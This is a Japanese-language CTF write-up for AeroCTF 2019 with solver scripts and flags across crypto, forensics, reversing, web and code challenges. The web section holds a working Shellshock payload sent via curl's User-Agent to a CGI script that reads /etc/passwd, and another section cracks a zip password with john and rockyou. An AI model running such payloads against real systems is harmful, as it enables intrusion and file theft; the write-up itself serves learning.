

3 月 8 日から 3 月 9 日にかけて開催された[AeroCTF](https://2019.aeroctf.com/) に、チーム Harekaze で参加しました。最終的にチームで 3411 点を獲得し、順位は得点 241 チーム中 13 位でした。うち、私は 11 問を解いて 2549 点を入れました。

以下、解いた問題の write-up です。

## Warmup
### crypto_warmup (100)
> Again, these memes, we have even stopped talking to them. Just look at it, they seem to be crazy.
> 添付ファイル: meme_or_not

与えられたファイルの内容は以下のようなものでした。

```
kappa_pride pepe kappa 
look_at_this_dude kappa trollface 
look_at_this_dude kappa_pride look_at_this_dude 
look_at_this_dude kappa_pride trollface 
look_at_this_dude look_at_this_dude pepe 
kappa_pride trollface kappa 
pepe look_at_this_dude kappa_pride 
kappa_pride trollface kappa_pride 
trollface look_at_this_dude look_at_this_dude 
trollface look_at_this_dude look_at_this_dude 
︙
```

出現する文字列は `kappa` `trollface` `pepe` `kappa_pride` `look_at_this_dude` の 5 種類のみです。`kappa -> 0` `trollface -> 1` `kappa_pride -> 2` `pepe -> 3` `look_at_this_dude -> 4` として、5 進数に変換して読んでみましょう。

```python
with open('meme_or_not', 'r') as f:
  s = f.read()

s = s.replace('kappa_pride', '2')
s = s.replace('pepe', '3')
s = s.replace('kappa', '0')
s = s.replace('trollface', '1')
s = s.replace('look_at_this_dude', '4')
s = s.replace(' ', '')

print(''.join(chr(int(x, 5)) for x in s.splitlines()))
```

```
$ python solver.py
Aero{7a911ccfb18c2fafe2960b6ee2cbc9c7}
```

フラグが得られました。

```
Aero{7a911ccfb18c2fafe2960b6ee2cbc9c7}
```

### forensic_warmup (100)
> Our developers instead of working often send each other some strange pictures. We somehow caught them looking at these pictures, but when we went to their emails, we received not exactly images. Try to understand how they look at them.
> 添付ファイル: just_a_meme

謎のバイナリファイルが与えられました。バイナリエディタである BZ で開いて 24 ビットでビットマップ表示をしてみると、以下のように様々な色が確認できました。どうやら画像ファイルのようです。



RGB の順番で各色 1 バイト、幅 800 ピクセル、高さ 450 ピクセルの画像として復元してみましょう。

```python
from PIL import Image
w, h = 800, 450
im = Image.new('RGB', (w, h))
pix = im.load()
with open('just_a_meme', 'rb') as f:
  for y in range(h):
    for x in range(w):
      r, g, b = f.read(3)
      pix[x, y] = r, g, b
im.show()
im.save('res.png')
```

上下反転した状態でちゃんとした画像が得られました。

```
Aero{d95e63c3ba2e4f72746d2a9dfa99403c}
```

### misc_warmup (100)
> Our reverser loves to create various tasks. This is a example, try to solve.
> 添付ファイル: some_idb.i64

IDA が吐き出すデータベースファイルが与えられました。`strings` にかけてみましょう。

```
$ strings -n 2 some_idb.i64
︙
4f
ce
81
a9
46
b4
2e
ac
49
d3
7c
5d
97
af
43
80
Aero{
︙
```

フラグが得られました。

```
Aero{8043af975d7cd349ac2eb446a981ce4f}
```

### reverse_warmup (100)
> Again, our developers are watching all kinds of memes. Now use for this some program. Try to crack this soft.
> 添付ファイル: just_a_meme.exe

`file` でどのようなファイルか確認してみましょう。

```
> file just_a_meme.ex_
just_a_meme.ex_: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
```

64 ビットの PE ファイルのようです。バイナリエディタで開くと `Go build ID` 等の文字列が確認でき、Go 製のバイナリであることが分かります。

Freeware 版の IDA で確認すると、`main_checkKey` でユーザ入力をチェックしていることが分かります。この中では `ユーザ入力 ^ 0xd + 0x25` したあと `0x4df408` から始まるバイト列と比較されています。

逆の手順で `key` が `i_love_memes` であることが分かりました。

```
Aero{5184d8d5097fc748acad6605e273768d}
```

### pwn_warmup (100)
> Now they have made a server with memes, it has authorization. See if you can get around it.
> Server: 185.66.87.233 5004
> 添付ファイル: meme_server

とりあえずサーバに接続して、バッファオーバーフローができないか試してみましょう。

```
$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA | nc 185.66.87.233 5004
Memes server
Enter the password: here is your meme: Aero{d31d0c1f564273c9bf3f1d1e1540c100}
```

フラグが得られました。

```
Aero{d31d0c1f564273c9bf3f1d1e1540c100}
```

## Crypto
### gocryptor (379)
> In our design office work young guys who love Golang. They developed a secure storage system for drawings using their encryption. We wrote a program for this on Go and now we all use it. However, our drawings still flow into the network. Check if the program may not work quite correctly. For example, we give you one encrypted drawing.
> 添付ファイル: gocryptor.go (ソースコード), example_drawing.enc (暗号化されたファイル)

`gocryptor.go` は以下のような内容でした。

```go
package main

import ( 
	"fmt"
	"io/ioutil"
	"os"
	"crypto/md5"
)

func check( e error ) {
    if e != nil {
        panic( e )
    }
}

func gen_key( seed string ) string {
	if len( seed ) < 6 {
		for i := 0; i < 6 - len( seed ); i++ {
			seed += "0"
		}
	} else if len( seed ) > 6 {
		seed = seed[0:6]
	}

	return seed
}

func encrypt ( data []byte, key [16]byte ) {
	for i := 0; i < len( data ); i++ {
		data[ i ] ^= key[ i % len( key ) ]
	}
}

func main() {

	var (
		file string
		seed string
	)

	if len( os.Args ) > 2 {
		file = os.Args[ 1 ]
		seed = os.Args[ 2 ] 
	} else {
		fmt.Println( "Usage go run " + os.Args[ 0 ] + " <file> <seed>" )
		os.Exit( -1 )
	}

	data, err := ioutil.ReadFile( file )
	check( err )

	key := md5.Sum( []byte( gen_key( seed ) ) )

	encrypt( data, key )

	err = ioutil.WriteFile( file + ".enc" , data, 0644 )
    check( err )

}
```

`os.Args[2]` をごにょごにょした後、その MD5 ハッシュと与えられたファイルを xor しています。[xortool](https://github.com/hellman/xortool) を使って `xortool example_drawing.enc -l 16 -c 00` でファイルが復元できました。

```
Aero{9e57f6b3509283933c1be3fedda555b6}
```

### pycryptor (444)
> Our programmers decided not to use that encoder written in Golange and created a new one in Python. Needless to say that we again lose our drawings? Could you look again at the encoder and an example of its use?
> 添付ファイル: cryptor.py (ソースコード), enc_image.png (暗号化されたファイル)

`cryptor.py` の主要な部分を抜き出します。

```python
︙
	def imageEncrypt( self ):
		img = Image.open( self.image )
		#conv_img = img.convert('RGB')

		size = img.size

		x_off = 16
		y_off = 16
		
		pixelMap = img.load()
		blocks = []

		while x_off < size[ 0 ] and y_off < size[ 1 ]:
			block = []

			for i in range( x_off - 16, x_off ):
				for j in range( y_off - 16, y_off ):
					block.append( pixelMap[ i, j ] )

			blocks.append( block )
			
			x_off += 16

			if x_off >= size[ 0 ]:
				x_off = 16
				y_off += 16

		for blck in blocks:
			for i in range( len( blck ) ):
				new_pixel = ( blck[ i ][ 0 ] ^ self.key_table[ i ],
					blck[ i ][ 1 ] ^ self.key_table[ i ], 
					blck[ i ][ 2 ] ^ self.key_table[ i ] )

				blck[ i ] = new_pixel

		enc_im = Image.new( "RGB", size, "black" )
		enc_pixels = enc_im.load()

		x_off = 16
		y_off = 16
		block_off = 0
		
		while x_off < size[ 0 ] and y_off < size[ 1 ]:

			inblock_off = 0

			for i in range( x_off - 16, x_off ):
				for j in range( y_off - 16, y_off ):
					enc_pixels[ i, j ] = blocks[ block_off ][ inblock_off ]
					inblock_off += 1

			block_off += 1
			x_off += 16

			if x_off >= size[ 0 ]:
				x_off = 16
				y_off += 16

		enc_im.save( "enc_" + self.image )

		img.close()
︙
```

16 ピクセル * 16 ピクセル単位で xor を行っているようです。白 (`(255, 255, 255)`) の部分を利用して xor されている数値を手に入れ、それを使って画像を復元してみましょう。

```python
from PIL import Image
im = Image.open('enc_image.png')
w, h = im.size
pix1 = im.load()
res = Image.new('RGB', im.size)
pix2 = res.load()

key = [[pix1[x, y] for x in range(16, 32)] for y in range(16, 32)]
for y in range(h):
  for x in range(w):
    r1, g1, b1 = pix1[x, y]
    r2, g2, b2 = key[y % 16][x % 16]
    pix2[x, y] = r1 ^ r2 ^ 255, g1 ^ g2 ^ 255, b1 ^ b2 ^ 255

res.show()
res.save('result.png')
```

フラグが得られました。

```
Aero{192dcd9741bddef369483a3c18da9ff3}
```

## Forensic
### undefined protocol (479)
> We managed to get traffic from the machine of one of the hackers who hacked our navigation systems, but they use some kind of strange protocol over TCP. We were not able to disassemble it, maybe you can find out what he was transmitting?
> 添付ファイル: undefined_protocol_traffic.pcapng

Wireshark で開いて、適当な通信を見てみましょう。

```
00000000  36 30 0a                                           60.
    00000000  1c 06 59 51 5d 52 4e 59  4f 69                     ..YQ]RNY Oi
00000003  57 59 4e 49 5e 59 54 5f                            WYNI^YT_ 
    0000000A  36 48 55 44 79 36 1d 58  55 50 5d 4a 52 55 1c 4f   6HUDy6.X UP]JRU.O
    0000001A  55 1c 59 51 5d 52 4e 59  4f 69 1c 61 11 67         U.YQ]RNY Oi.a.g
0000000B  58 4e 53 4b 4f 4f 5d 4c                            XNSKOO]L 
```

最初に `60` という数値が与えられ、それ以降は内容と `60` を xor して送信しているようです。

最後の通信 (`tcp.stream eq 338`) でフラグが送信されていると当たりをつけ、復号してみましょう。

```
00000000  36 39 0a                                           69.
    00000000  65 7f 20 28 24 2b 37 20  36 10                     e. ($+7  6.
00000003  2b 2c 28 21 24                                     +,(!$
    0000000A  65 7f 21 37 2a 32 36 36  24 35 65 20 2d 31 65 37   e.!7*266 $5e -1e7
    0000001A  20 31 2b 00                                         1+.
00000008  2b 2c 28 21 24                                     +,(!$
    0000001E  4f 64 2b 2c 28 21 24 65  20 28 2a 26 29 20 12      Od+,(!$e  (*&) .
    0000002D  38 27 72 24 26 23 76 27  72 73 26 73 27 27 75 24   8'r$&#v' rs&s''u$
    0000003D  77 70 20 71 20 72 77 76  27 71 75 21 71 75 21 71   wp q rwv 'qu!qu!q
    0000004D  7c 3e 2a 37 20 04                                  |>*7 .
```

```
$ python
>>> from pwn import *
>>> s = """4f 64 2b 2c 28 21 24 65  20 28 2a 26 29 20 12   
... 38 27 72 24 26 23 76 27  72 73 26 73 27 27 75 24
... 77 70 20 71 20 72 77 76  27 71 75 21 71 75 21 71
... 7c 3e 2a 37 20 04                               """.replace(' ', '').replace('\n', '').decode('hex')
>>> xor(s, 69)
'\n!nimda emocleW}b7acf3b76c6bb0a25e4e723b40d40d49{oreA'
>>> xor(s, 69)[::-1]
'Aero{94d04d04b327e4e52a0bb6c67b3fca7b}Welcome admin!\n'
```

フラグが得られました。

```
Aero{94d04d04b327e4e52a0bb6c67b3fca7b}
```

### data container (497)
> For the transfer of drawings, we use robust containers. At least we think so.
> 添付ファイル: container

与えられたファイルをバイナリエディタで開いてみましょう。

```
︙
0030640:    00 02 00 A0 28 02 04 A2 20 6C 6D 78 2E 5D 73 65
0030650:    70 79 54 5F 74 6E 65 74 6E 6F 43 5B 02 08 00 13
0030660:    00 00 05 52 00 00 01 65 1D BB EF A3 00 21 00 00
0030670:    00 08 00 06 00 14 04 03 4B 50
```

`KP` で終わっている、`lmx.]sepy_tnetnoC[` というバイト列が含まれるなど、前後が反転された Microsoft Office のファイルっぽい雰囲気があります。

`open('container', 'rb').read()[::-1]` のような感じで前後を反転し、ZIP ファイルとして展開してみます。展開されたファイルを眺めていると、`word/media/image1.png` という謎のファイルが見つかりました。

バイナリファイルで `image1.png` を眺めていると、IEND チャンクの後ろにも `13 37 13 37 65 51 …` とバイト列が続いている様子が確認できました。Python で抽出と `13 37` というバイト列との xor を行うと、前後が反転されたような謎のバイナリファイルが出てきました。これは `03 04` というバイト列から始まっており、マジックナンバーの `PK` が削られた ZIP であるという推測ができます。

あとは ZIP ファイルを展開するだけかと思いきや、どうやらパスワードがかかっているようです。`zip2john` と `john` コマンド、`rockyou.txt` という辞書ファイルを使うと、`123456789q` がパスワードであることが分かりました。これを使って展開するとフラグが得られました。

```
Aero{87f94dc197f4ae43ac8ec0ecda6aae8d}
```

## Web
### board tracking system (100)
> We develop advanced board tracking system, is it vulnerable?
> Site: http://81.23.11.159:8080/

与えられた URL にアクセスすると、以下のような HTML が表示されました。

```html
<html>
	<head>
		<style>
			body, pre {
   				color: #7b7b7b;
				font: 300 16px/25px "Roboto",Helvetica,Arial,sans-serif;
			}
		</style>
	<meta name="generator" content="vi2html">
	</head>
	<body>
	</br>
Welcome to control plane application of Aeroctf system.</br>
</br>
</br>
On a dashboard you can see loading our system</br>
	</br>
Stats:
	</br>
	<iframe frameborder=0 width=800 height=600 src="/cgi-bin/stats"></iframe>
	</body>
</html>
```

Shellshock を試してみましょう。

```
$ curl "http://81.23.11.159:8080/cgi-bin/stats" -A "() { :; }; echo; /bin/bash -c 'cat /etc/passwd';"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Aero{c58b51bee681ba3aa3971cef7aa26696}
```

フラグが得られました。

```
Aero{c58b51bee681ba3aa3971cef7aa26696}
```

## Code
### damaged ticket (150)
> I left my computer unattended for a while and did not block it. I had a plane ticket on the desktop, someone had damaged it and now I have only small parts of the ticket, as if it had passed through a "shredder". Help me recover the ticket, I have a plane in a couple of hours!
> 添付ファイル: parts.7z

与えられた 7z ファイルを展開すると、`00ec53c4682d36f5c4359f4ae7bd7ba1.png` のようなファイル名の画像が 600 個出てきました。`00ec53c4682d36f5c4359f4ae7bd7ba1` でググってみると、これは `381` の MD5 ハッシュであることが分かります。

`md5(0).png` ~ `md5(599).png` の順番で結合してみましょう。

```python
import hashlib
from PIL import Image
im = Image.new('RGB', (600, 267))
for x in range(600):
  im2 = Image.open('parts/{}.png'.format(hashlib.md5(str(x).encode()).hexdigest()))
  im.paste(im2, (x, 0))
im.show()
```

フラグが得られました。
